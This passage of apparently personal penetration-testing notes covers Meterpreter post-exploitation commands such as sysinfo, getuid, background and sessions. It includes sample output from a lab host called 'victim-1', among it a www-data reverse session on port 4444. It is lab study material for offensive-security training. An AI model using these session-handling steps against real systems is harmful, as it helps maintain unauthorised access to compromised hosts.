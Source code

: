 ### sysinfo

```bash
sysinfo
```

```bash
Computer    : victim-1
OS          : Linux victim-1 5.4.0-131-generic #147-Ubuntu SMP Fri Oct 14 17:07:22 UTC 2022 x86_64
Meterpreter : php/linux
```

### getuid

```
getuid
```

```bash
Server username: www-data (33)
```

* Unprivileged session with the `www-data` user

### background

```bash
background
```

```bash
# Puts the session in background
```

* Keyboard shortcut: `CTRL+Z`

### sessions

```bash
sessions
# In msfconsole
```

```bash
Active sessions
===============
  Id  Name  Type                   Information               Connection
  --  ----  ----                   -----------               ----------
  1         meterpreter php/linux  www-data (33) @ victim-1  192.170.151.2:4444 -> 192.170.151.3:51678 (192.170.151.3)

# Manage Active MSF sessions
```

```bash
sessions -h
```

```bash
OPTIONS:
    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
    -q        Quiet mode
```
